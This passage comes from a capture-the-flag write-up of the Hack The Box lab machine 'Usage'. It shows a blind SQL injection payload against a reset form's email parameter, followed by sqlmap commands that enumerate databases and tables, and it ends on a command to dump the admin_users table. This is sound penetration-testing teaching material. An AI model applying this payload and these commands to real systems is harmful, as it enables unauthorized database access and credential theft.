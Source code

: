 ```
    Payload: _token=YiNzrNxWRNzcxuA3dihvcYSKaLEJg5pek2yqT5tz&email=test' AND 6371=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- kmNV
```

Cool, so now we know the parameter is vulnerable to blind injection, and that there are 8 columns.

Lets dig deeper and enumerate the databases with:

```
┌──(ryan㉿kali)-[~/HTB/Usage]
└─$ sqlmap -r burp.txt --batch --level 5 --risk 3 --threads 10 -p email --dbms mysql --dbs
<SNIP>
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```

usage_blog is definitely the most interesting here. Let's now check out the tables:

```
┌──(ryan㉿kali)-[~/HTB/Usage]
└─$ sqlmap -r burp.txt --batch --level 5 --risk 3 --threads 10 -p email --dbms mysql -D usage_blog --tables
<SNIP>
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
```

Both the `admin_users` and the `users` seem interesting, but let's check out `admin_users` first.

```
┌──(ryan㉿kali)-[~/HTB/Usage]
└─$ sqlmap -r burp.txt --batch --level 5 --risk 3 --threads 10 -p email --dbms mysql -D usage_blog -T admin_users --dump
```
